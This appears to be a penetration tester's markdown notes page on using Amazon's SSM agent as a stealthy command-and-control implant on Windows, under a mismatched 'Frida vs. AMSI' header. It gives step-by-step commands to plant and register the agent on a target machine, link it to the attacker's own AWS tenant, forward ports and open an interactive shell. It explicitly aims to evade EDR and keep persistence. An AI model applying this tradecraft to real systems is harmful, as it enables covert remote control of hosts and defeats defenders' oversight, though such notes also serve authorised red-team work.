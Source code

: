 ```yaml
---
title: Frida vs. AMSI
description: Let's use Frida to explore all the different ways we can patch or break the Anti-Malware Scan Interface.
---
```


# Using Amazon SSM as a C2 implant (Windows)

From my personal notes. Communication with the AWS API is often ignored by EDR, and the SSM agent is a legitimate utility that has a business use case in many environments. Using standard enterprise tooling instead of signature C2 frameworks is a great way to maintain stealthy persistence in a heavily monitored environment.

Step 1: Clone from https://github.com/aws/amazon-ssm-agent and build for Windows.
Step 2: Transfer all binaries from appropriate release folder to target machine. Put them in `C:\Program Files\Amazon\SSM\` as admin.
Step 3: Log into the AWS console for your own tenant. Navigate to Systems Manager, and from there to *Hybrid Activations*.
Step 4: Create a new hybrid activation. Record the activation code and ID.

Step 5: If required, set proxy information on the target machine:

```powershell
> set http_proxy=http://hostname:port
> set https_proxy=http://hostname:port
```

Step 6: Register the target machine with AWS, using a local administrator account:

```powershell
> .\amazon-ssm-agent.exe -region "<region>" -id "<activation id>" -code "<activation code>" -register
```

Step 7: Invoke the agent as a local administrator:

```powershell
> .\amazon-ssm-agent.exe
```

You can now invoke run documents remotely on the machine as long as the agent is running. For example, to set up port forwarding:

```sh
$ aws ssm start-session --target <instance-id> --document-name AWS-StartPortForwardingSession --parameters '{"portNumber":["80"],"localPortNumber":["9999"]}'
```

If you want to use the interactive session manager shell, also known as "Agent for Session Manager" (only supported on Windows Server):

- Go to https://github.com/rprichard/winpty/ and download the latest release.
- Transfer `winpty.dll` and `winpty-agent.exe` to `C:\Program Files\Amazon\SSM\Plugins\SessionManagerShell\`.